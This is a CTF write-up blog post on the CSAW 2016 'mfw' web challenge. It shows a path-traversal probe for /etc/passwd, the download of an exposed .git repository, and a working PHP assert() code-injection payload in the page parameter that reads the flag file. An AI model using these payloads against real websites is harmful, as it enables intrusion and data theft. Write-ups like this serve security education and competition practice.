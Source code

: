 ```yaml
---
title: '[CSAW 2016] mfw Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:02:18+00:00
url: /csaw-2016-mfw-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - Web

---
```

#### **Description:**

> Hey, I made my first website today. It&#8217;s pretty cool and web7.9.  
> <http://web.chal.csaw.io:8000/>

&nbsp;

Entering the site, the first thing that comes to mind is a LFI attack. The site is including a page which is requested in the URL.

The following table describes the possible respond pages:

<table style="width: 945px;">
  <tr>
    <td style="width: 418.869px;">
      <strong>URL</strong>
    </td>
    
    <td style="width: 484.131px;">
      <strong>Result</strong>
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=home
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;home&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=about
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;about&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=contact
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;contact&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=Megabeets
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;That file doesn&#8217;t exist!&#8221;
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=flag
    </td>
    
    <td style="width: 484.131px;">
      An empty page is shown <strong>inside </strong>the website.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=../../../../etc/passwd
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;Detected hacking attempt!&#8221;
    </td>
  </tr>
</table>

Looking at the source code i saw the following comment:

```php
<!--<li ><a href="?page=flag">My secrets</a></li> -->
```


Ok, I need to get the &#8220;flag&#8221; page but any LFI technique I tried didn&#8217;t work. I thought about something else, In the &#8220;about&#8221; page the creator of the site mentioned that it was built using git. So let&#8217;s see if I am able to download the repository. The page http://web.chal.csaw.io:8000/.git/config exists so I downloaded the repository using <a href="https://github.com/kost/dvcs-ripper" target="_blank">DVCS-RIPPER</a>.

You can find index.php [here][1].

So the page is using assert() which is vulnerable to Command Injection attack. After a little trial and error I came up with the answer:

```ps
(Invoke-WebRequest "http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment").Content
```


And received the flag:

```php
string(52) "<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
"
Detected hacking attempt!
```


If you try entering [the url][2] in a browser, look in the source of the page (CTRL+U), the flag is commented.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/20edf000082b0765b493fb893cec96de
 [2]: http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment the rest of the line